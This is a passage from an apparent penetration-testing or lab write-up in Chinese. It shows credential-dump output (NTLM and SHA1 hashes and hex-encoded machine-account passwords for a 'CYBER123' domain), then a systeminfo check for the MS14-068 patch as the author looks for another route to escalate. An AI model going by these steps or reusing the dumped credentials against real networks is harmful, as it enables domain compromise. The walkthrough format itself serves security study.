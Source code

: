 ```bash
	 * Username : USER1$
	 * Domain   : CYBER123
	 * NTLM     : 453dd0a2ca72d3c78338a0c5bffa4f4a
	 * SHA1     : e53148cc9e3cf46eb3b19b68acc5a2b20b35fca7
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : USER1$
Domain            : CYBER123
Logon Server      : (null)
Logon Time        : 10/18/2023 1:45:26 AM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : USER1$
	 * Domain   : CYBER123
	 * Password : fa e0 84 9e 85 e1 b1 69 94 72 8f 8f ec f5 97 2e 82 9e 00 9e 80 0c 7d 73 be f5 f3 60 3f 46 06 b8 17 ab da 05 c9 25 32 5c c3 c8 49 12 c8 ff c7 9e 06 25 d0 cf 0b 8f 18 ac 5c 7c e0 84 ae 7c e6 9b 98 dc 5e 43 b9 1a 79 73 ee bc 14 b1 96 82 de 69 57 13 10 16 5e 6f 63 d8 3d 69 57 1e 3e 4e 05 3e d0 06 38 23 ff 0d 90 bc 17 52 3b 44 c4 d5 07 22 11 76 db 47 4a fe ab 65 40 14 7e d3 ff dd a9 82 c1 2f 11 0b ea c1 8e 12 db dd 9b 37 eb 0b fa 19 09 94 7a 72 33 97 0d 27 04 04 7c 46 06 2c f9 0e cb 57 52 4d 0c d7 e2 6f 48 d6 1b 8f b5 c5 c4 40 a6 5f 3e af 13 b2 61 a5 27 a6 86 ee ad 3a 94 4c 0f 27 e4 3c 50 aa aa 8c 90 51 96 5f 6f 65 93 43 9e af 29 5f a4 5c 08 0a 68 26 95 bd 8c d3 d7 59 8d fc 08 4d 70 92 95 cd 33 ea 9c 51 2a 0e b7 9c 
	kerberos :	
	 * Username : user1$
	 * Domain   : CYBER123.COM
	 * Password : fa e0 84 9e 85 e1 b1 69 94 72 8f 8f ec f5 97 2e 82 9e 00 9e 80 0c 7d 73 be f5 f3 60 3f 46 06 b8 17 ab da 05 c9 25 32 5c c3 c8 49 12 c8 ff c7 9e 06 25 d0 cf 0b 8f 18 ac 5c 7c e0 84 ae 7c e6 9b 98 dc 5e 43 b9 1a 79 73 ee bc 14 b1 96 82 de 69 57 13 10 16 5e 6f 63 d8 3d 69 57 1e 3e 4e 05 3e d0 06 38 23 ff 0d 90 bc 17 52 3b 44 c4 d5 07 22 11 76 db 47 4a fe ab 65 40 14 7e d3 ff dd a9 82 c1 2f 11 0b ea c1 8e 12 db dd 9b 37 eb 0b fa 19 09 94 7a 72 33 97 0d 27 04 04 7c 46 06 2c f9 0e cb 57 52 4d 0c d7 e2 6f 48 d6 1b 8f b5 c5 c4 40 a6 5f 3e af 13 b2 61 a5 27 a6 86 ee ad 3a 94 4c 0f 27 e4 3c 50 aa aa 8c 90 51 96 5f 6f 65 93 43 9e af 29 5f a4 5c 08 0a 68 26 95 bd 8c d3 d7 59 8d fc 08 4d 70 92 95 cd 33 ea 9c 51 2a 0e b7 9c 
	ssp :	
	credman :	
```

这条路似乎走不通了，SharpHound又无法使用。

看看有没有打`MS14-068`的补丁

```
systeminfo | findstr KB3011780
```
